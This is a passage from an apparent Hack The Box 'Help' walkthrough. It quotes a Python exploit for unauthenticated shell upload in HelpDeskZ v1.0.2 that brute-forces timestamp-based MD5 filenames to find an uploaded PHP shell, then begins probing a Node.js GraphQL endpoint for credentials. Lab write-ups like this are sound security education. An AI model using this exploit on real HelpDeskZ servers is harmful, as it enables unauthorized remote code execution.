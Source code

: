 ```
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```
<br> We can solve this problem by iterating over a higher range than 300 : `for x in range(0, 300)`
<br> This will make it try different hashes according to different times until it finds the file, you can call it a bruteforce attack. That will be easy let's look at another solution. Another solution is to get credentials to login to the web app and edit the timezone in the settings to make it the same as ours. 
<br>
<hr>
## Node.js, Getting Credentials 
<br> We saw earlier that port 3000 was open and running `Node.js Express framework` and we haven't looked at that yet. 
![](/images/hackthebox/help/9.png)
<br> By going to `http://help.htb:3000/` I got this response of a message saying : `"Hi Shiv, To get access please find the credentials with given query"`, I tried `/test` and got this :
![](/images/hackthebox/help/10.png)
<br> tbh the next step involved a lot of guessing/fuzzing with custom wordlists and random things based on google searches about `node.js`, `node.js` queries and other related stuff. After a lot of attempts to find something when I tried `/graphql` I got this response :
![](/images/hackthebox/help/11.png)
<br> So I added `?query` : `http://help.htb:3000/graphql?query` and got a syntax error :